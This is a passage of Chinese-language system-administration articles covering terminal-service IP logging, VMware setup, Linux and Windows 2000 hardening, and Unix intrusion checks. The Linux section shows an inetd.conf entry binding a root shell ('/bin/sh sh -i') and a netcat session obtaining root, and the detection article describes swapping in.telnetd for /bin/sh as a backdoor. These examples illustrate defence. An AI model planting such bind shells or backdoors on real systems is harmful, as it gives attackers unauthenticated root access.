第二行是记录用户的 IP 地址，Netstat 是用来显示当前网络连接状况的命令，`-n` 表示显示 IP 和端口而不是域名、协议，`-p tcp` 是只显示 tcp 协议，然后我们用管道符号“`|`” 把这个命令的结果输出给 Find 命令，从输出结果中查找包含“3389” 的行（这就是我们要的客户的 IP 所在的行，如果你更改了终端服务的端口，这个数值也要作相应的更改），最后我们同样把这个结果重定向到日志文件 TSLog.log 中去，于是在 TSLog.log 文件中，记录格式如下：

```
22    40
TCP  192.168.12.28    3389        192.168.10.123    4903 ESTABLISHED
22    54
TCP  192.168.12.28    3389        192.168.12.29    1039 ESTABLISHED
```

也就是说只要这个 TSLog.bat 文件一运行，所有连在 3389 端口上的 IP 都会被记录，那么如何让这个批处理文件自动运行呢？我们知道，终端服务允许我们为用户自定义起始的程序，在终端服务配置中， 我们覆盖用户的登录脚本设置并指定 TSLog.bat 为用户登录时需要打开的脚本，这样每个用户登录后都必须执行这个脚本，因为默认的脚本（相当于 shell 环境）是 Explorer（资源管理器），所以我在 TSLog.bat 的最后一行加上了启动 Explorer 的命令 `start explorer`，如果不加这一行命令，用户是没有办法进入桌面的。当然，如果你只需要给用户特定的 Shell：例如 cmd.exe 或者 word.exe 你也可以把 `start explorer` 替换成任意的 shell。这个脚本也可以有其他的写法，作为系统管理员，你完全可以自由发挥你的想象力、自由利用自己的资源，例如写一个脚本把每个登录用户的 IP 发送到自己的信箱，对于重要的服务器也是一个很好的方法。

正常情况下，一般的用户没有查看终端服务设置的权限，所以他不会知道你对登录进行了 IP 审核，只要把 TSLog.bat 文件和 TSLog.log 文件放在比较隐蔽的目录里就足够了，不过需要注意的是这只是一个简单的终端服务日志策略，并没有太多的安全保障措施和权限机制，如果服务器有更高的安全要求，那还是需要通过编程或购买入侵监测软件来完成的。

总结：其实在很多时候，系统管理员利用小的脚本能完成大量的工作，一个好的系统管理员应该学会善于利用脚本来完善系统和避免重复劳动。

## VMWARE 完全实现心得

文/大鹰

Vmware 确实是很酷的东西，我喜欢在 Win2000 下用它，因为我的工作平台是在 Win2000 下（也可以使用在 Linux 下），我可以运行 Vmware For win2000 来实现，大家可以去 Vmware 的主页下载最新的版本 www.vmware.com ，但是现在已经不是免费的了。言归正传，我以在 Win2000 下为例（在 Linux 下的实现我不多讲了，大同小异）简单介绍一下安装（以装 Redhat7 为例，其他 Linux 版本也差不多）。

首先以 Administrator 用户登录 Windows NT，安装 Vmware 的过程比较简单，用户只要简单地双击此软件包，即可开始自解压并安装。整个过程只要点击下一步即可。安装过程要不了 1 分钟。不过，要注意，Vmware 目前还不能同 Windows NT 的屏保很好地共处，所以在安装完成后要取掉屏保。配置虚拟机过程如下：

首先运行 VMware，之后，选择 VMware Configuration Wizard 建立一个虚拟配置文件。以下以建立 Red Hat Linux 虚拟机为例，配置 Linux 虚拟机：

在我的计算机上安装 Red Hat Linux。运行“VMware Configuration Wizard"，然后选 Linux，选择保存目录为 `H:\redhat7`（最好给 VMware 独立空出一个分区），VMware 以虚拟方式在所选定的文件目录中建立虚拟的 Linux 文件系统，下面要安装的所有 Linux 系统都放置在这一目录中。我的 Guest OS 要占用的磁盘大小设为 2000M，这个数字由用户自行定义。不过 VMware For Windows 2000 所能支持的最大硬盘空间不能超过 2000MB。要在虚拟机上使用软盘与光驱，还要将 Floppy 和 CD-ROM 选择项置为 Enabled。如果要使用网络，要求虚拟机以一个独立的主机出现在网络中，则要选择 Host-Bridge 选项。设置完毕后，应保存配置。如果想对虚拟的配置进行更改或添加虚拟设备，如硬盘、光驱、声卡等硬件，可选择选单上的 Settings 选项中的 Configuration Editor 进行配置。

运行并安装 Guest OS
在 Windows 2000 环境中安装 Linux 虚拟机，下面以 Red Hat Linux 7 的安装为例进行安装。首先运行 VMware For Windows 2000，选择事先建立好的 Linux 虚拟机，将 Red Hat Linux 光盘放入光驱中，选择“Power On” 启动虚拟机，开始安装。便开始了 Red Hat Linux 的安装，安装过程同在一台独立的计算机上安装 Red Hat Linux 没有什么两样。

安装 VMware Tools For Linux 使 x-windows 正常运行
正常装好以后大家会注意到 Start X 后，出来的 x-window 分辨率很差，而且根本不能用，怎么解决呢？仔细研究了一下，因为我从来都是用命令行的，这次装 X 是为了用 Satan 等图形的扫描工具。因此上特意到 VMware 的主页看了一遍，终于有了答案：它有个附带的软件包名叫：VMware Tools For Linux ，起的作用就是使 X 正常运行，在 VMware 的最近的版本内把这个软件包内置了，只是需要调出安装。可以按照如下步骤进行：
先装好 VMware，再装好 Linux，VMware 的窗体上有一个 Setting 选项卡，此卡里面有一个按钮是 VMware Tools Install，点击它，会问你是否看帮助，按否跳过，然后就跳出一个窗体，点击 OK 就可以了。最后在你装好的 Linux 虚拟机上成为 Root，进行如下操作：

```bash
cd /
mount -t vfat /dev/fd0 /mnt
cp /mnt/vmware-linux-tools.tar.gz /tmp
umount /dev/fd0
# Untar the VMware Tools tar file in /tmp and install it.
cd /tmp
tar zxf vmware-linux-tools.tar.gz
cd vmware-linux-tools
./install.pl


```

在你的虚拟机中有一个缺省的 VMware Tools Floppy，你可以把这个 Floppy 挂接到你的文件系统上，然后把里面的东西拷下来就可以了，VMware Tools For Linux 就在那里。有一点要记住，那个 Floppy 可不是真的软盘啊，不需要你插入软盘的。安装完毕后 Start X，好酷，1024x768 32Bits。

注：VMware Tools For Linux 是内置的，但 For FreeBSD 可不是的，你得到 VMware 主页去下载。

## Linux 安全攻略
本文的目的在于让读者对 Linux 的安全配置有个大概的了解，其实 Linux 机器要做一般的安全配置，几分钟就可以搞定。

文/大鹰

## 安装

首先，隔离网络进行系统安装，当然选择 Custom 方式，安装你需要的软件包。

硬盘分区：如果用 Root 分区记录数据，如 Log 文件和 Email，就可能因为拒绝服务产生大量日志或垃圾邮件，导致系统崩溃，所以建议为/var 开辟单独的分区，用来存放日志和邮件，以避免 Root 分区被溢出。最好为特殊的应用程序单独开一个分区，特别是可以产生大量日志的程序，建议再为/home 单独分一个区，这样它们就不能填满/分区了，以下是硬盘的分区情况：

- / root
- /var log
- /hacking 我的一些黑软
- /swap 不多说了
- /home

当安装完重新启动系统后，最好打上相应的系统安全补丁，请大家养成良好的习惯，记住，你不是在自己家里装 98，你装的是一个 Linux 服务器。对于 Redhat 系统而言，可以在：http://www.redhat.com/corp/support/errata/找到补丁。

Redhat6.1 以后的版本带有一个工具 Up2date，它能够测定哪些 Rpm 包需要升级，然后自动从 Redhat 的站点下载并完成安装。

## 关闭服务

有句话说的好，要想你的系统绝对安全，就是掐断网线。由于我们的机器要对外提供服务，所以那是不现实的，但是关闭不必要的服务却是必要的，因为有些服务会为你的系统带来麻烦。

默认的 Linux 系统，运行了很多的服务。但是有一些服务是不需要的，而且很容易引起安全风险。第一个文件是/etc/inetd.conf，它制定了/usr/sbin/inetd 将要监听的服务，你可能只需要其中的两个：Telnet 和 Ftp，其他如 Popd，Imapd 和 Rsh 都有可能引发安全问题。用下面的命令显示没有被注释掉的服务：

```
suneagle # grep -v "#" /etc/inetd.conf
ftp     stream  tcp     nowait  root    /usr/sbin/tcpd  in.ftpd -l -a
telnet  stream  tcp     nowait  root    /usr/sbin/tcpd  in.telnetd
shell   stream  tcp     nowait  root    /usr/sbin/tcpd  in.rshd
login   stream  tcp     nowait  root    /usr/sbin/tcpd  in.rlogind
talk    dgram   udp     wait    nobody.tty    /usr/sbin/tcpd  in.talkd
ntalk   dgram   udp     wait    nobody.tty    /usr/sbin/tcpd  in.ntalkd
```

```
pop-3    stream  tcp      nowait  root     /usr/sbin/tcpd  ipop3d
imap     stream  tcp      nowait  root     /usr/sbin/tcpd  imapd
finger   stream  tcp     nowait  nobody   /usr/sbin/tcpd  in.fingerd
linuxconf stream tcp wait root /bin/linuxconf linuxconf -- http
exec     stream  tcp      nowait  root     /bin/sh sh -i
```

大家看最后一行，不就被绑了个 Rootshell 么？有什么后果？在远程的一台 Win2000 机器上用如下命令：

```
E:\cmd>nc 192.0.0.88 512
bash# id
id
uid=0    root    gid=0    root    groups=0    root
bash#
```

明白了吧？

下一个要启动的是 rc 脚本，它们决定了 Init 进程要启动哪些服务。Redhat 系统下，这些脚本在/etc/rc.d/rc3.d（如果你的系统以 X 为默认启动的话，就是/etc/rc.d/rc5.d）。要在启动时禁止某个服务，只需要把大写的 S 替换为小写的 s；同时，Redhat 也提供一个工具来帮助你关闭服务，输入/usr/sbin/setup，然后选择“system services”，就可以定制系统启动时跑哪些服务。另外一个选择是 Chkconfig 命令，很多 Linux 版本的系统都自带这个工具。脚本名字中的数字是启动的顺序，以大写的 K 开头的是杀死进程用的。

以下是一些主要的服务：

- S05apmd    笔记本需要
- S10xntpd   网络时间协议
- S11portmap 运行 rpc 服务必需
- S15sound   声卡相关
- S15netfs   nfs 客户端
- S20rstatd  避免运行 r 服务，远程用户可以从中获取很多信息
- S20rusersd
- S20rwhod
- S20rwalld
- S20bootparamd 无盘工作站
- S25squid   代理服务
- S34yppasswdd NIS 服务器，此服务漏洞很多
- S35ypserv  NIS 服务器，此服务漏洞很多
- S35dhcpd   dhcp 服务
- S40atd     和 cron 很相似的定时运行程序的服务
- S45pcmcia  pcmcia 卡，笔记本
- S50snmpd   SNMP，远程用户能从中获得许多系统信息
- S55named   DNS 服务
- S55routed  RIP，没有必要就别运行它
- S60lpd     打印服务
- S60mars - nwe Netware 的文件和打印服务
- S60nfs NFS 服务器，漏洞极多
- S72amd automount，mount 远程用的
- S75gated 另外一种路由服务，例如 OSPF
- S80sendmail 邮件服务，如关闭，仍然可以发信，只是不能收信和作中继
- S85httpd Web 服务器
- S87ypbind NIS 客户端
- S90xfs X font 服务器
- S95innd News 服务器
- Slinuxconf 通过浏览器远程管理系统用的

用这个命令查看在关闭启动脚本之前有多少服务在运行：

```
suneagle # ps -eaf | wc -l
```

54

我的系统有 54 种服务在运行。

当你关闭一些服务以后，重新运行以上命令看看少了多少服务。运行的服务越少，系统自然越安全了。用下面命令查看哪些服务在运行：

```
suneagle # netstat -na -i -p
```

| Proto | Recv - Q | Send - Q | Local Address | Foreign Address | State |
|---|---|---|---|---|---|
| tcp | 0 | 136 | 192.0.0.88 23 | 192.0.0.5 1236 | ESTABLISHED |
| tcp | 0 | 0 | 192.0.0.88 23 | 192.0.0.8 1113 | ESTABLISHED |
| tcp | 0 | 0 | 192.0.0.88 139 | 192.0.0.8 1112 | ESTABLISHED |
| tcp | 0 | 0 | 192.0.0.88 1024 | 61.153.17.24 23 | ESTABLISHED |
| tcp | 0 | 0 | 192.0.0.88 23 | 192.0.0.8 1084 | ESTABLISHED |
| tcp | 0 | 0 | 0.0.0.0 139 | 0.0.0.0 * | LISTEN |
| tcp | 0 | 0 | 0.0.0.0 80 | 0.0.0.0 * | LISTEN |
| tcp | 0 | 0 | 0.0.0.0 25 | 0.0.0.0 * | LISTEN |

......

举例用的系统故意开了不少危险端口，大家应该明白，该关的就要关。

## 日志记录与增强

关闭一些不必要的服务以后，日志也是需要我们关心的一块。配置好的 Unix 系统日志非常强大，甚至可以做出陷阱。所有的日志都在/var/log 下（仅对 Linux 系统而言），默认情况下 Linux 的日志就很强大了，除了 Ftp。但我们可以通过修改/etc/ftpaccess 或者/etc/inetd.conf 来保证每一个 Ftp 连接日志都能够记录下来。

下面是一个修改 Inetd.conf 的例子：

```
ftp stream tcp nowait root /usr/sbin/tcpd in.ftpd -l -L -i -o
```

- l 每一个 ftp 连接都写到 syslog
- L 记录用户的每一个命令
- i 文件 received，记录到 xferlog
- o 文件 transmitted，记录到 xferlog

## 账号的安全问题

删除/etc/passwd & /etc/shadow 中的一些系统账号，如 Mail、News 等等。尽量关闭匿名 Ftp 服务，删掉 Ftp 用户。

/etc/ftpusers 文件，包含了不能使用 FTP 的用户列表，Root 应该在其中。
修改/etc/securetty 去除终端 ttyp0-ttyp9，使 Root 只能从 Console 或者使用 ssh 登陆。/etc/issue，不要让此文件透露系统信息。同时要修改/etc/rc.d/rc/local。
SUID 程序是非常危险的，这些程序可以被普通用户以 euid=0（即 root）的身份执行，只能有少量程序被设置为 SUID。用以下命令列出系统的 SUID 二进制程序：

```
suneagle # find / -perm -4000 -print
```

用 chmod -s 去掉一些不需要程序的 suid 位。

## 连接服务器

作为系统管理员，需要经常对系统进行更新和上传文件，这些通信过程必须保证是安全的。现在介绍两个方法：ssh 和 tcp wrappers。笔者比较偏向于用 ssh，它把你和防火墙之间的通信全部进行了加密，而 tcp wrappers 没有做到加密这一点，虽然现在先进的 Sniffer 技术也可以嗅探到 ssh 的数据包，但它依然还是最安全的。建议用 ssh 完全取代 Telnet/FTP，它能够确保数据在网络中的安全传输。ssh 和 tcpwrapper 都有它们自己的日志记录，并设有访问控制策略，如果要深入了解 ssh，可以参考相关书籍。tcpwrappers 尽管没有对数据进行加密，但它有日志系统并且可以控制允许哪些人访问你的系统，它在 inetd 中包装了其他的二进制文件，如 Telnet、FTP、Finger 等等。系统用 Tcpwrapper 进行 Inetd 监听连接，记录了所有请求并且与访问控制列表作比较，如果允许连接，Tcpwrapper 将调用实际的服务器进程来连接，如 In.telnetd 服务，如果拒绝，连接将断开。对 Linux 用户比较幸运的是 tcpwrapper 已经被默认安装了，我们所要做的就是编辑/etc/hosts.allow 和/etc/hosts.deny 两个文件。

注意以下事项：

- 1. 尽量使用 IP。
- 2. 首先通过/etc/hosts.deny 禁止来自任何地方对所有服务的访问：

```
ALL ALL
```

然后在/etc/hosts.allow 中添加要授权的机器及服务。冒号左边为服务，冒号右边为授权机器。

## 加固系统

以上的措施足以应付一般的网络攻击，但你的系统仍然不是 100%安全的，从来就没有绝对安全的系统，不是么？我们来进一步加固系统！编辑/etc/groups，增加 wheel 组（其实笔者之所以喜欢 freebsd，就是因为默认 freebsd 这些工作做的很好）。这个组包含了一些用户，可以执行/bin/su 等强大的命令。对其他用户执行下面命令，可以改善系统的安全。

```
suneagle # /bin/chgrp wheel /bin/su
suneagle # /bin/chmod 4750 /bin/su
```

然后锁定一些文件：.rhosts，.netrc，/etc/hosts.equiv。

r 命令可以通过这些文件远程连入你的系统。先 Touch 这些文件，然后 Chmod 至 0。

```
suneagle # /bin/touch /root/.rhosts /root/.netrc /etc/hosts.equiv
/bin/chmod 0 /root/.rhosts /root/.netrc /etc/hosts.equiv
```

Linux 还有一个众所周知的命令：chattr，+i 操作，即使是 Root，也在 -i 之前改不了它们，先在你的系统的/etc/shadow，/etc/inetd.conf 等文件来个 chattr +i 可以避免一下 Exploit 给你添后门。

## Bash 的问题

对于 Bash 用户来讲，有个.bash_history 文件，可以记录你的所用的命令，谁也不希望其他人包括 Root 知道自己敲了哪些命令吧？有两种方法来解决这个问题。

- 1. 在自己的.bash_profile 文件中加入一行：

```
HISTFILESIZE=0
```

切记不要把 HISTSIZE 置零，那样就无法使用上下键来调用历史命令了。

- 2. 删除自己目录下的.bash_history，然后建立一个连接：

```
suneagle $ ln -s /dev/null $HOME/.bash_history
```

最后，为保证物理安全，建议在/etc/lilo.conf 中设置密码来控制 Linux 的启动。

## Windows 2000

### 安全检查清单

前段时间，中美网络大战，笔者特别关注了一下，发现绝大部分被黑的服务器都是 NT/win2000 的机器，真是惨不忍睹。Win2000 真的那么不安全么？其实，Win2000 含有很多的安全功能和选项，如果你合理地配置它们，那么它将会是一个很安全的操作系统。笔者抽空翻了一些网站，整理了这篇 Checklist 出来。希望对 Win2000 管理员有些帮助。

文/springold

### Windows2000 初级安全篇

- 1. 物理安全
服务器应该安放在安装了监视器的隔离房间内，并且监视器要保留 15 天以上的摄像记录。另外，机箱、键盘、电脑桌抽屉要上锁，以确保旁人即使进入房间也无法使用电脑，钥匙要放在安全的地方。

- 2. 停掉 Guest 帐号
在计算机管理的用户里面把 Guest 帐号停用掉，任何时候都不允许 Guest 帐号登陆系统。为了保险起见，最好给 Guest 加一个复杂的密码，你可以打开记事本，在里面输入一串包含特殊字符、数字、字母的长字符串，然后把它作为 Guest 帐号的密码拷进去。

- 3. 限制不必要的用户数量
去掉所有的 Duplicate User 帐户、测试用帐户、共享帐号、普通部门帐号等等。用户组策略设置相应权限，并且经常检查系统的帐户，删除已经不在使用的帐户。这些帐户很多时候都是黑客们入侵系统的突破口，系统的帐户越多，黑客们得到合法用户的权限可能性一般也就越大。国内的 NT/2000 主机，如果系统帐户超过 10 个，一般都能找出一两个弱口令帐户。笔者曾经发现一台主机 197 个帐户中竟然有 180 个帐号都是弱口令帐户。

- 4. 创建 2 个管理员用帐号
虽然这点看上去和上面这点有些矛盾，但事实上是服从上面的规则的。 创建一个一般权限帐号用来收信以及处理一些日常事物，另一个拥有 Administrators 权限的帐户只在需要的时候使用。可以让管理员使用 “RunAS” 命令来执行一些需要特权才能作的工作，以方便管理。

- 5. 把系统 Administrator 帐号改名
大家都知道，Windows 2000 的 Administrator 帐号是不能被停用的，这意味着别人可以一遍又一遍地尝试破解这个帐户的密码。把 Administrator 帐户改名可以有效地防止这一点。当然，请不要使用 Admin 之类的名字，改了等于没改，尽量把它伪装成普通用户，比如改成：Guestone。

- 6. 创建一个陷阱帐号
创建一个名为“Administrator” 的本地帐户，把它的权限设置成最低，什么事也干不了的那种，并且加上一个超过 10 位的超级复杂密码。这样可以让那些 Scripts Kiddies 忙上一段时间了，并且可以借此发现它们的入侵企图，或者在它的 Login Scripts 上面做点手脚。

- 7. 把共享文件的权限从“Everyone” 组改成“授权用户”
“Everyone” 在 Win2000 中意味着任何有权进入你的网络的用户都能够获得这些共享资料。任何时候都不要把共享文件的用户设置成“Everyone” 组。包括打印共享，默认的属性就是“Everyone” 组的，一定不要忘了改。

- 8. 使用安全密码
一个好的密码对于一个网络是非常重要的，但也是最容易被忽略的。一些公司的管理员创建帐号的时候往往用公司名、计算机名，或者一些很容易猜到的东西做用户名，然后又把这些帐户的密码设置得很简单，比如 “Welcome” “Iloveyou” “Letmein” 或者和用户名相同等等。这样的帐户应该要求用户首次登陆的时候更改成复杂的密码，还要注意经常更改密码。我们给好密码下了个定义：安全期内无法破解出来的密码就是好密码，也就是说，如果人家得到了你的密码文档，必须花 43 天或者更长的时间才能破解出来，而你的策略是 42 天必须改密码。

- 9. 设置屏幕保护密码
很简单也很有必要，设置屏幕保护密码也是防止内部人员破坏服务器的一个屏障。注意不要使用 OpenGL 和一些复杂的屏幕保护程序，浪费系统资源，让他黑屏就可以了。还有一点，所有系统用户所使用的机器最好也加上屏幕保护密码。

- 10. 使用 NTFS 格式分区
把服务器的所有分区都改成 NTFS 格式。NTFS 文件系统要比 FAT、FAT32 的文件系统安全得多。

- 11. 运行防毒软件
其实这一点非常重要。一些好的杀毒软件不仅能杀掉一些著名的病毒，还能查杀大量木马和后门程序。这样的话，“黑客” 们使用的那些有名的木马就毫无用武之地了。不要忘了经常升级病毒库。

- 12. 保障备份盘的安全
一旦系统资料被破坏，备份盘将是你恢复资料的惟一途径。备份完资料后，把备份盘放在安全的地方。千万别把资料备份在同一台服务器上，那样还不如不要备份。

### Windows2000 中级安全篇

- 1. 利用 Win2000 的安全配置工具来配置策略
微软提供了一套基于 MMC 管理控制台 安全配置和分析工具，利用它你可以很方便地配置你的服务器。具体内容请参考微软主页：

```
http://www.microsoft.com/windows2000/techinfo/howitworks/security/sctoolset.asp
```

- 2. 关闭不必要的服务
Windows 2000 的 Terminal Services (终端服务) IIS 和 RAS 都可能给你的系统带来安全漏洞。为了能够在远程方便地管理服务器，很多机器的终端服务都是开着的，如果你的也开了，要确认你已经正确地配置了终端服务。有些恶意的程序也能以服务方式悄悄地运行。要留意服务器上面开启的所有服务，定期（每天）的检查它们。下面是 C2 级别安装的默认服务：

- Computer Browser service TCP/IP NetBIOS Helper
- Microsoft DNS server Spooler
- NTLM SSP Server
- RPC Locator WINS
- RPC service Workstation
- Netlogon Event log

- 3. 关闭不必要的端口

关闭端口意味着减少功能，在安全和功能上面需要做一些决策。如果服务器安装在防火墙的后面，冒的险就会少些，但是，永远不要认为你可以高枕无忧了。用端口扫描器扫描系统所开放的端口，确定开放了哪些服务是黑客入侵你的系统的第一步。`\system32\drivers\etc\services` 文件中有知名端口和服务的对照表可供参考。具体方法为：网上邻居→属性→本地连接→属性→Internet 协议 TCP/IP →属性→高级→选项→TCP/IP 筛选→属性，打开 TCP/IP 筛选，添加需要的 TCP 和 UDP 协议即可。

## 4. 打开审核策略
开启安全审核是 Win2000 最基本的入侵检测方法。当有人尝试对你的系统进行某些方式（如尝试用户密码、改变帐户策略、未经许可的文件访问等等）入侵的时候，都会被安全审核记录下来。很多管理员在系统被入侵了几个月都不知道，直到系统遭到破坏。下面的这些审核是必须开启的，其他的可以根据需要增加：

| 策略 | 设置 |
|---|---|
| 审核系统登陆事件 | 成功, 失败 |
| 审核帐户管理 | 成功, 失败 |
| 审核登陆事件 | 成功, 失败 |
| 审核对象访问 | 成功 |
| 审核策略更改 | 成功, 失败 |
| 审核特权使用 | 成功, 失败 |
| 审核系统事件 | 成功, 失败 |

## 5. 开启密码策略
| 策略 | 设置 |
|---|---|
| 密码复杂性要求 | 启用 |
| 密码长度最小值 | 6 位 |
| 强制密码历史 | 5 次 |
| 密码最长使用期限 | 42 天 |

## 6. 开启帐户策略
| 策略 | 设置 |
|---|---|
| 复位帐户锁定计数器 | 20 分钟 |
| 帐户锁定时间 | 20 分钟 |
| 帐户锁定阈值 | 3 次 |

## 7. 设定安全记录的访问权限
安全记录在默认情况下是没有保护的，把它设置成只有 Administrator 和系统帐户才有权访问。

## 8. 把敏感文件存放在另外文件服务器中
虽然现在服务器的硬盘容量都很大，但你还是应该考虑把一些重要的用户数据文件、数据表、项目文件等存放在另外一个安全的服务器中，并且经常备份它们。

## 9. 不让系统显示上次登陆的用户名
默认情况下，终端服务接入服务器时，登陆对话框中会显示上次登陆的帐户名，本地的登陆对话框也是一样。这使得别人可以很容易地得到系统的一些用户名，进而作密码猜测。修改注册表可以不让对话框里显示上次登陆的用户名，具体方法是：
`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\DontDisplayLastUserName`
把 REG_SZ 的键值改成 1。

## 10. 禁止建立空连接
默认情况下，任何用户都可以通过空连接连上服务器，进而枚举出帐号，猜测密码。我们可以通过修改注册表来禁止建立空连接：
`Local_Machine\System\CurrentControlSet\Control\LSA\RestrictAnonymous` 的值改成 `1` 即可。

- 11. 到微软网站下载最新的补丁程序
很多网络管理员没有访问安全站点的习惯，以至于一些漏洞都公布很久了，还放着服务器的漏洞不补，给人家当靶子用。谁也不敢保证数百万行以上代码的 2000 不出一点安全漏洞，经常访问微软和一些安全站点，下载最新的 Service Pack 和漏洞补丁，是保障服务器长久安全的惟一方法。

## Windows2000 高级安全篇
- 1. 关闭 DirectDraw
这是 C2 级安全标准对视频卡和内存的要求。关闭 DirectDraw 可能对一些需要用到 DirectX 的程序有影响（比如游戏，在服务器上玩星际争霸？我晕..），但是对于绝大多数的商业站点都应该是没有影响的。修改注册表：
`HKLM\SYSTEM\CurrentControlSet\Control\GraphicsDrivers\DCI` 的 `Timeout` REG_DWORD 值设为 0 即可。

- 2. 关闭默认共享
Windows 2000 安装好以后，系统会创建一些隐藏的共享，你可以在 cmd 下打 `net share` 查看它们。网上有很多关于 IPC 入侵的文章，相信大家一定对它不陌生。要禁止这些共享，打开“管理工具→计算机管理→共享文件夹→共享”，在相应的共享文件夹上按右键，点“停止共享”即可，不过机器重新启动后，这些共享又会重新开启。
- 默认共享目录
- C$ D$ E$
- ADMIN$
- FAX$
- IPC$
- NetLogon$
- PRINT$

- 3. 禁止 Dump File 的产生
Dump 文件在系统崩溃和蓝屏的时候是一份很有用的查找问题的资料。然而，它也能够给黑客提供一些敏感信息，比如一些应用程序的密码等。要禁止它，打开“控制面板→系统属性→高级→启动和故障恢复”，把“写入调试信息”改成无。要用的时候，可以重新打开它。

- 4. 使用文件加密系统 EFS
Windows2000 强大的加密系统能够给磁盘、文件夹、文件加上一层安全保护。这样可以防止别人把你的硬盘挂到别的机器上读出里面的数据。记住要给文件夹也使用 EFS 而不仅仅是单个的文件。有关 EFS 的具体信息可以查看 http://www.microsoft.com/windows2000/techinfo/howitworks/security/encrypt.asp

- 5. 加密 Temp 文件夹
一些应用程序在安装和升级的时候，会把一些东西拷贝到 Temp 文件夹，但是当程序升级完毕或关闭的时候，它们并不会自己清除 Temp 文件夹的内容。所以，给 Temp 文件夹加密可以给你的文件多一层保护。

- 6. 锁住注册表
在 Windows2000 中，只有 Administrators 和 Backup Operators 才有从网络上访问注册表的权限。如果你觉得还不够的话，可以进一步设定注册表访问权限，详细信息请参考：http://support.microsoft.com/support/kb/articles/Q153/1/83.asp

- 7. 关机时清除掉页面文件
页面文件也就是调度文件，是 Win2000 用来存储没有装入内存的程序和数据文件部分的隐藏文件。一些第三方的程序可以把一些没有加密的密码存在内存中，页面文件中也可能含有另外一些敏感的资料。要在关机的时候清除页面文件，可以编辑注册表：
`HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management`
把 `ClearPageFileAtShutdown` 的值设置成 1。

- 8. 禁止从软盘和 CD-ROM 启动系统
一些第三方的工具能通过引导系统来绕过原有的安全机制。如果你的服务器对安全要求非常高，可以考虑使用可移动软盘和光驱。把机箱锁起来仍不失为一个好方法。

- 9. 考虑使用智能卡来代替密码
对于密码，总是使安全管理员进退两难，容易受到 L0phtCrack 等工具的攻击，如果密码太复杂，用户为了记住密码，会把密码到处乱写。如果条件允许，用智能卡来代替复杂的密码是一个很好的解决方法。

- 10. 考虑使用 IPSec
正如其名字的含义，IPSec 提供 IP 数据包的安全性。IPSec 提供身份验证、完整性和可选择的机密性。发送方计算机在传输之前加密数据，而接收方计算机在收到数据之后解密数据。利用 IPSec 可以使得系统的安全性能大大增强。

## 入侵检测方法和缺陷
编者按：一个合格的网络管理员，除了能及时排除系统故障，还要时刻保持警惕，最大程度地防止黑客入侵。手动检测系统是否被入侵是管理员的基础技能，能很好地辅助扫描软件对系统进行彻底的检测。

文/柳永
对于做网络管理员工作的人来说，除了要及时地消除系统故障，还要时刻提防黑客入侵，每个管理员都必须具备迅速判断自己的服务器是否被入侵的能力。本文记述了几种判断 UNIX 系统黑客入侵的简单方法，以 LINUX 和 Solaris 为例，希望能给广大管理员朋友一个借鉴。

- 1. 检查系统密码文件
首先从明显的入手，查看一下 passwd 文件，`ls -l /etc/passwd` 查看文件修改的日期。
输入命令 `awk -F: '$3==0 {print $1}' /etc/passwd` 来检查一下 passwd 文件中有哪些特权用户，系统中 uid 为 0 的用户都会被显示出来。顺便再检查一下系统里有没有空口令帐户：`awk -F: 'length($2)==0 {print $1}' /etc/shadow`。

- 2. 查看进程，看看有没有奇怪的进程
重点查看进程：`ps -aef | grep inetd`
inetd 是 UNIX 系统的守护进程，正常的 inetd 的 pid 都比较靠前，如果你看到输出了一个类似 `inetd -s /tmp/.xxx` 之类的进程，着重看 inetd -s 后面的内容。在正常情况下，LINUX 系统中的 inetd 服务后面是没有 -s 参数的，当然也没有用 inetd 去启动某个文件；而 solaris 系统中也仅仅是 `inetd -s`，同样没有用 inetd 去启动某个特定的文件；如果你使用 ps 命令看到 inetd 启动了某个文件，而你自己又没有用 inetd 启动这个文件，那就说明已经有人入侵了你的系统，并且以 root 权限起了一个简单的后门。
输入 `ps -aef` 查看输出信息，尤其注意有没有以 `./xxx` 开头的进程。一旦发现异样的进程，经检查为入侵者留下的后门程序，立即运行 `kill -9 pid` 杀死该进程，然后再运行 `ps -aef` 查看该进程是否被杀死；一旦此类进程出现杀死以后又重新启动的现象，则证明系统被人放置了自动启动程序的脚本。这个时候要进行仔细查找：`find / -name 程序名 -print`，假设系统真的被入侵者放置了后门，根据找到的程序所在的目录，会找到很多有趣的东西，NIX 下隐藏进程有的时候通过替换 ps 文件来做，检测方法涉及到检查文件完整性，稍后我们再讨论这种方法。
接下来根据找到入侵者在服务器上的文件目录，一步一步进行追踪。

- 3. 检查系统守护进程
检查 `/etc/inetd.conf` 文件，输入：`cat /etc/inetd.conf | grep -v "^#"`，输出的信息就是你这台机器所开启的远程服务。
一般入侵者可以通过直接替换 in.xxx 程序来创建一个后门，比如用 `/bin/sh` 替换掉 `in.telnetd`，然后重新启动 inetd 服务，那么 telnet 到服务器上的所有用户将不用输入用户名和密码而直接获得一个 rootshell。

- 4. 检查网络连接和监听端口
- 输入 `netstat -an`，列出本机所有的连接和监听的端口，查看有没有非法连接。
- 输入 `netstat -rn`，查看本机的路由、网关设置是否正确。
- 输入 `ifconfig -a`，查看网卡设置。

- 5. 检查系统日志
命令 `last | more` 查看在正常情况下登录到本机的所有用户的历史记录。但 last 命令依赖于 syslog 进程，这已经成为入侵者攻击的重要目标。入侵者通常会停止系统的 syslog，查看系统 syslog 进程的情况，判断 syslog 上次启动的时间是否正常，因为 syslog 是以 root 身份执行的，如果发现 syslog 被非法动过，那说明有重大的入侵事件。
- 在 linux 下输入 `ls -al /var/log`
- 在 solaris 下输入 `ls -al /var/adm`
检查 wtmp、utmp、message 等文件的完整性和修改时间是否正常，这也是手工擦除入侵痕迹的一种方法。

- 6. 检查系统中的 core 文件
通过发送畸形请求攻击服务器的某一服务来入侵系统是一种常规的入侵方法，典型的 RPC 攻击就是通过这种方式。这种方式有一定的成功率，也就是说它并不能 100% 保证成功入侵系统，而且通常会在服务器相应目录下产生 core 文件，全局查找系统中的 core 文件，输入 `find / -name core -exec ls -l {} \;`，依据 core 所在的目录、查询 core 文件来判断是否有入侵行为。

- 7. .rhosts 和 .forward
这是两种比较著名的后门文件，如果想检查你的系统是否被入侵者安装了后门，不妨全局查找这两个文件：
`find / -name ".rhosts" -print`
`find / -name ".forward" -print`
在某用户的 $HOME 下，.rhosts 文件中仅包含两个 + 号是非常危险的，如果你的系统上开了 513 端口（rlogin 端口，和 telnet 作用相同），那么任意是谁都可以用这个用户登录到你的系统上而不需要任何验证。
